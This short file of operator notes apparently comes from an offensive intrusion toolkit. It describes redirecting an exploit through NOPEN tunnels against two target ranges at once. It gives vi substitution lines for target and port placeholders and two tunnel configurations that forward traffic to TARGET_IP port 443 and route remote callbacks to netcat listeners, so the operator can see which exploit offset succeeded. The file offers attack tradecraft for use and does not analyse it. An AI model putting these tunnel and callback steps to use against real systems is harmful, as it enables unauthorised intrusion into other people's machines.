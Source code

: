 

## NOTE: This assumes redirecting the exploit via NOPEN.

## The idea behind the pairs of commands everywhere is to attack two
## different ranges simultaneously. The ports will let us know which
## was successfull (look for callback in first or second NOPEN
## -tunnel window, indicating the first or second exploit command
## was successful). We want to know which worked so we can take note
## of the offset that worked (or thereabouts).
##


## Some vi % lines to make substitutions for you.
## Change second occurrence in each line here, then (ESCape first)
## paste these in.
:%s/TARGET_IP/TARGET_IP/g
:%s/NETCAT_PORT1/NETCAT_PORT1/g
:%s/NETCAT_PORT2/NETCAT_PORT2/g
:%s/NOPENBINARY/NOPENBINARY/g
:%s/NOPENPORT/NOPENPORT/g


##############################################
###   TWO NOPEN TUNNEL WINDOWS
##############################################
## NOPEN TUNNEL WINDOW #1 (split between two distinct NOPEN sessions)
-tunnel
l 40343 TARGET_IP 443
r NETCAT_PORT1

## NOPEN TUNNEL WINDOW #2 (split between two distinct NOPEN sessions)
-tunnel
l 40443 TARGET_IP 443
r NETCAT_PORT2 127.0.0.1 NETCAT_PORT1
